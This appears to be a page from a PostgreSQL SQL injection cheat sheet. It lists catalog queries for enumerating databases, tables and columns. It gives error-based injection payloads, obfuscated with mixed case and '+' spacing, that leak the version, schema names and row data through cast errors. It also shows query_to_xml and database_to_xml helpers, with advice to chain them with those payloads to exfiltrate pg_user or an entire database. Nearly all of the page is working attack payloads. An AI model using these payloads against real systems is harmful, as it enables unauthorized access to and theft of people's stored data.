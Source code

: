 ## PostgreSQL List Database

\`\`\`sql
SELECT datname FROM pg_database
\`\`\`

## PostgreSQL List Tables

\`\`\`sql
SELECT table_name FROM information_schema.tables
\`\`\`

## PostgreSQL List Columns

\`\`\`sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
\`\`\`

## PostgreSQL Error Based

\`\`\`sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
\`\`\`

## PostgreSQL XML helpers

\`\`\`sql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
\`\`\`

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

\`\`\`sql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
\`\`\`

